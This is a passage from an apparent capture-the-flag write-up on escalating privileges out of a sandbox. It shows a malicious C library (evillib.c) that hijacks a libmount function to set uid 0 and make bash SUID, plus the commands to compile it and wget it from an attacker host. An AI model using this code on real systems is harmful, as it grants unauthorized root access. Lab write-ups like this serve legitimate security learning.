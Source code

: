 ```
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
mnt_init_debug got called !!
mnt_new_context got called !!
mount: libmount context allocation failed: Success
$ Killed subprocess
Exited
```

Since `mnt_init_debug` got called first we will choose this function to run our code. All it does is set the uid to 0, confirms it got set and the gives bash the suid bit on the system.

```c
#include "stdio.h"
#include "stdlib.h"

...[snip]...
	
int mnt_init_debug() { puts("mnt_init_debug got called !!"); setuid(0); printf("uid %d\n", getuid()); system("/proc/1/fd/3/../../../../../../usr/bin/chmod +s /proc/1/fd/3/../../../../../../bin/bash"); return 0; }

...[snip]...
	
```

Now all we have to do is perform the steps from before. First we compile the library again and transfer it over to the target.

```
gcc -shared -fPIC -o evillib.so evillib.c
evillib.c: In function ‘mnt_init_debug’:
evillib.c:19:62: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
   19 | int mnt_init_debug() { puts("mnt_init_debug got called !!"); setuid(0); printf("uid %d\n", getuid()); system("/proc/1/fd/3/../../../../../../usr/bin/chmod +s /proc/1/fd/3/../../../../../../bin/bash"); return 0; }
      |                                                              ^~~~~~
evillib.c:19:92: warning: implicit declaration of function ‘getuid’ [-Wimplicit-function-declaration]
   19 | int mnt_init_debug() { puts("mnt_init_debug got called !!"); setuid(0); printf("uid %d\n", getuid()); system("/proc/1/fd/3/../../../../../../usr/bin/chmod +s /proc/1/fd/3/../../../../../../bin/bash"); return 0; }
```

```
clarence@scanned:/var/www/malscanner/sandbox$ rm /tmp/evillib.so
clarence@scanned:/var/www/malscanner/sandbox$ wget 10.10.14.75:8000/evillib.so -O /tmp/evillib.so
--2022-02-02 20:47:30--  http://10.10.14.75:8000/evillib.so
Connecting to 10.10.14.75:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69960 (68K) [application/octet-stream]
Saving to: ‘/tmp/evillib.so’

/tmp/evillib.so                                             100%[==========================================================================================================================================>]  68.32K  --.-KB/s    in 0.09s

2022-02-02 20:47:30 (754 KB/s) - ‘/tmp/evillib.so’ saved [69960/69960]
```
